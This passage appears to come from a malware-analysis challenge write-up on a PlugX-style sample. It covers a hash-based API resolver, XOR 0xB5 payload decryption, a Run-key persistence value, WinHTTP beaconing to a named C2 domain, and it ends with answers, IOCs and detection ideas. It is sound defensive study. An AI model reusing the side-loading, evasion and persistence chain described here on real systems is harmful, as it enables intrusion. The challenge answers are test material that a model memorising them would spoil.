

HxD confirms it (see Q13 and Q14). A real XML file would start with `<?xml`; this one starts with raw bytes and is mostly a repeated `B5`.

**Answer: `phc.xml`**

---

## Q12 · API hash resolver address

**Question:** What is the address of the API hash resolver function?

**Approach.** The routine that does the real work calls the same function over and over with two 32-bit constants and then calls the returned pointer:

```c
v3 = (int (__stdcall *)(_DWORD, _DWORD *, int))sub_1000133C(a1: 1468755273, a2: -1250680377);
result = v3(a1: 0, a2: Src, a3: 260);
```



Opening `sub_1000133C` shows the PEB walk at the top of the function:

```asm
mov eax, large fs:30h     ; PEB
mov eax, [eax+0Ch]        ; PEB->Ldr
```



`fs:30h` plus the loader list plus a function that returns an address from two hash constants identifies the resolver. The first constant is probably a module hash and the second an API hash. I did not reverse the hash algorithm or resolve the constants to names.

**Answer: `0x1000133C`**

---

## Q13 · Decryption operation

**Question:** Which bitwise operation decrypts the Stage-3 payload?

**Approach.** In HxD, `phc.xml` is dominated by long runs of `B5`. Compiled code contains many `00` bytes, and `00 XOR key = key`, so a single-byte XOR key shows up as the most frequent byte.



I XORed the whole file with `B5` in CyberChef. The output now contains `MZ`, the DOS stub text `This program cannot be run in DOS mode.` and a `PE` signature, so the result is a valid PE image:



A search for the immediate `0B5h` across `phc.dll` in IDA returned 16 hits, all of them plain `db 0B5h` data bytes in `.rdata` / `.data`, with no code and no function attached. So the decryption is not in the loader DLL's own code. I did not locate the decoder instruction itself, so the evidence is the known-plaintext result above.



**Answer: `XOR`**

---

## Q14 · Decryption key

**Question:** What is the single-byte decryption key (hex)?

**Approach.** The key is the dominant byte in HxD and the key used in the CyberChef recipe (`XOR`, Key `B5`, scheme Standard). The proof that it is right is the plaintext that appears afterwards (`MZ`, DOS stub, `PE`; see Q13).

The decrypted PE does not begin at offset 0. The first 12 bytes are a short unencrypted prefix, so I cut at `0x0C` to get a clean DLL for analysis:

```powershell
python -c "o=bytes(b^0xB5 for b in open(r'...\plugins\phc.xml','rb').read()); open(r'C:\Analysis\plugx\stage3.dll','wb').write(o[0x0C:])"
Get-FileHash C:\Analysis\plugx\stage3.dll -Algorithm SHA256
```



**Answer: `0xB5`**

---

## Q15 · API used to resolve more APIs

**Question:** Which Windows API does the malware use to dynamically resolve additional API functions?

**Approach.** I dumped ASCII and wide strings from the decrypted `stage3.dll` and searched them:

```powershell
strings64 -nobanner -n 6 stage3.dll > s_ascii.txt
strings64 -nobanner -n 6 -el stage3.dll > s_wide.txt
Select-String "GetProcAddress" s_ascii.txt        # s_ascii.txt:575:GetProcAddress
```



The answer mask has 14 characters, which matches `GetProcAddress` exactly. The string hit shows the name is present; I did not trace an individual call site.

**Answer: `GetProcAddress`**

---

## Q16 · Registry persistence

**Question:** Identify the full registry key path and the value name the malware creates for persistence.

**Approach.** In the Stage-3 strings, the Run key and a value name sit next to each other, together with the registry APIs that write them (`RegCreateKeyExW`, `RegSetValueExW`):





The nearby strings, in order, are `SetFileAttributesW`, `FoxitUpdater.exe`, `phc.dll`, `%s%s\%s`, **`Foxit Updater`**, **`Software\Microsoft\Windows\CurrentVersion\Run`**. That reads like: build an install path under `%userprofile%`, copy the trio, then register a Run value named `Foxit Updater` so the signed EXE (and with it `phc.dll`) restarts at every logon (MITRE T1547.001). `LladhFju` after the path is just noise. Other strings in the same block hint at USB-drive handling (`GetDriveTypeW`, `DeviceIoControl`, a PowerShell `Eject` line) and `taskkill /f /im %ws`.

Mask check: `Foxit Updater` is 5 + 7 letters, and `\CurrentVersion\Run` ends the path with 14 + 3 characters.

### Answer format gotcha

The platform did **not** accept the plain forms. Submitting the path without a hive and with single backslashes was rejected:



The hint mask shows doubled backslashes (`\\**************\\***`):



The accepted form uses the full hive name and **escaped (doubled) backslashes**, then a comma and the value name. The hive (`HKEY_CURRENT_USER`) is not shown in the strings; it comes from the per-user Run key behavior and was accepted by the platform. I did not capture the `RegCreateKeyExW` hive constant in IDA.

**Answer: `HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run, Foxit Updater`**

---

## Q17 · API used to connect to the C2

**Question:** Which Windows API does the malware use to connect to the C2 server?

**Approach.** The Stage-3 strings contained only Winsock housekeeping names (`WSAStartup`, `WSAGetLastError`, `WSACleanup`), and none of the usual connect, `Http` or `Internet` names or any domain, so the C2 logic is not visible as plain text there.



The network activity at runtime comes from the host process `FoxitUpdater.exe` (see Q18), so I opened it in IDA and looked at its Imports. The `WINHTTP` group lists `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReceiveResponse`, `WinHttpReadData` and others:



`WinHttpConnect` has exactly 14 characters, matching the mask, and it is the call that takes the server host name. I did not catch the API in a debugger breakpoint, so this answer rests on the import table plus the length mask.

**Answer: `WinHttpConnect`**

---

## Q18 · C2 server

**Question:** What is the C2 server used by the malware?

**Approach.** The C2 is not stored as plain text, so I used runtime observation. In the isolated VM I started FakeNet-NG, which simulates the internet and logs every DNS and connection attempt, then ran `FoxitUpdater.exe`. FakeNet recorded:



```
DNS Server  Received A request for domain 'autodealersflorida.com' from FoxitUpdater.exe (4916)
Diverter    FoxitUpdater.exe (4916) requested TCP 192.0.2.123:443
HTTPListener443  GET /zQvaXt48alv11FE?pbsz=...  HTTP/1.1
                 Cookie: b=zyBa6M76aNR9LmItYpK7U2xxacNXzQvaXt48alvwGXwAMJ2kuqZVWZAhy4wL;token=...
                 User-Agent: M
                 Host: autodealersflorida.com
```

The domain `autodealersflorida.com` (18 + `.` + 3 characters) is queried by `FoxitUpdater.exe` and appears in the HTTP `Host` header. `192.0.2.123` is the address FakeNet hands back, not the real server. Traffic from other processes in the log (for example IDA's license check) is unrelated noise.

**Answer: `autodealersflorida.com`**

---

## Attack summary

| Stage | What happens |
| --- | --- |
| Delivery | ZIP with a lure name; inside, a `.lnk` shown as a PDF |
| Launcher | `cmd.exe /c PoweRshEll -W h ...` finds the original ZIP with `?` wildcards |
| Stage-2 | Bytes 975 to 975+7,726,592 are written to `aqdk.cp` and unpacked with `tar` into `IFIR-7R-I2R8\` |
| Side-load | Signed `FoxitUpdater.exe` loads `plugins\phc.dll`, export `CreateCheckLicense` |
| Evasion | 10-million-iteration busy loop (T1678), decoy RSA/printf code, hash-based API resolver at `0x1000133C` |
| Stage-3 | `phc.xml` is XOR `0xB5`; decrypts to a PE with a 12-byte unencrypted prefix |
| Persistence | Run value `Foxit Updater` under the Run key (T1547.001) |
| C2 | HTTPS to `autodealersflorida.com` through WinHTTP |

## Answer summary

| # | Question | Answer |
| --- | --- | --- |
| 1 | Real file extension | `lnk` |
| 2 | Hidden-window flag | `-W h` |
| 3 | ZIP search mask | `Tin_buo??n_PG?_Co?ng_ty.pdf.zip` |
| 4 | Extraction offset | `975` |
| 5 | Bytes extracted | `7726592` |
| 6 | Directory created by tar | `IFIR-7R-I2R8` |
| 7 | Signed executable | `FoxitUpdater.exe` |
| 8 | DLL loaded from plugins | `phc.dll` |
| 9 | Exported function | `CreateCheckLicense` |
| 10 | MITRE ID for the stall loop | `T1678` |
| 11 | Encrypted Stage-3 container | `phc.xml` |
| 12 | API hash resolver address | `0x1000133C` |
| 13 | Decryption operation | `XOR` |
| 14 | Decryption key | `0xB5` |
| 15 | API used to resolve APIs | `GetProcAddress` |
| 16 | Persistence key and value | `HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run, Foxit Updater` |
| 17 | C2 connection API | `WinHttpConnect` |
| 18 | C2 server | `autodealersflorida.com` |

## IOCs and detection ideas

**IOCs**

| Type | Value |
| --- | --- |
| Domain (C2) | `autodealersflorida.com` (HTTPS, port 443) |
| Folder | `%USERPROFILE%\IFIR-7R-I2R8\` |
| Staging file | `%USERPROFILE%\aqdk.cp` |
| Files | `FoxitUpdater.exe`, `plugins\phc.dll`, `plugins\phc.xml` |
| Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` value `Foxit Updater` |
| Carve | offset 975, length 7,726,592 bytes |
| XOR key | `0xB5` (phc.xml, prefix of 12 bytes before the PE) |

Hashes of `aqdk.cp` and `stage3.dll` are visible in the screenshots for Q4 and Q14.

**Detection ideas**

- LNK targeting `cmd.exe` with PowerShell arguments, including abbreviated and mixed-case forms (`-W h`, `PoweRshEll`). Do not match only `-WindowStyle Hidden`.
- PowerShell that enumerates `$Home` for its own archive and writes a byte slice with `WriteAllBytes`, followed by `tar -xvf` of a file with an unusual extension.
- A signed `FoxitUpdater.exe` running from a user-profile folder, loading `plugins\phc.dll` from that same folder.
- A new Run value named like a vendor product that points into the user profile.
- DNS and HTTPS to `autodealersflorida.com` from `FoxitUpdater.exe`.
- A non-`.xml` blob next to a DLL with the same base name, with near-flat byte distribution (here, mostly one repeated byte).

---

*All screenshots are original captures from the analysis session. Samples were handled only inside an isolated VM.*
